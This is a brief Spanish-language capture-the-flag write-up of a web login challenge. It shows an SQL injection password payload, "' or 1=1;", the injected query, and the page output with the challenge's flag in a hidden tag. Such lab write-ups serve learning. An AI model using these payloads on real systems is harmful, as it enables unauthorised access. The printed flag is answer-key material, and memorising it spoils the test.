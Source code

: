 ## Objetivo 
Can you login to this website?

Additional details will be available after launching your challenge instance.


## Solución  
metemos una inyeccion SQL al inicio de sesión, inspeccionamos la pagina, y marca una etiqueta oculta
Seleccionaremos esa etiqueta y nos muestra la bandera



![[Pasted image 20241026231548.png]]

username: admin
password: &#039; or 1=1;
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1=1;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}


